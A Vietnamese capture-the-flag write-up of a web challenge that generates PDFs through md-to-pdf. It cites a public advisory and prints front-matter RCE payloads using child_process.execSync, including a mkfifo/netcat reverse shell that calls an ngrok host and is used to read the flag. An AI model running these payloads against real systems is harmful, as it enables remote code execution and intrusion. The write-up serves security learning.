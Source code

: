 ![](https://hackmd.io/_uploads/SJyCgE09h.png)

Khi vào chall thì trang web sẽ cho ta 1 form để điền như trên, sau khi điển xong và bấm vào ``Generate`` thì trang web sẽ tạo ra 1 file PDF và chuyển hướng ta đến đó.

![](https://hackmd.io/_uploads/S1HXWNRq3.png)


Để làm được challenge lần này, mình đã tham khảo đường link sau: https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

```
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---RCE
```

Với payload sau, mình thử thay đổi 1 tí để test xem cách mà nó thực thi.

```
---js
((require("child_process")).execSync("sleep 5"))
---RCE
```

Với payload trên thì trang web đã phải mất 5 giây để thực thi, do đó ta có thể inject vào đây. Tiếp theo mình sử dụng công cụ Reverse Shell để tạo shell

Trước tiên mình tạo cổng tcp với port là 1707 sau đó sử dụng ``nc -lvnp`` để lắng nghe từ cổng.

![](https://hackmd.io/_uploads/SkGmL4Rqh.png)



Sau khi tạo shell thành công mình bắt đầu kết hợp với payload:

```
---js
((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.jp.ngrok.io 18018 >/tmp/f"))
---RCE
```

![](https://hackmd.io/_uploads/SJmHU4Ac2.png)

Mình đã kết nối thành công với server, sau đó truy cập vào file ``flag.txt`` và submit thui !
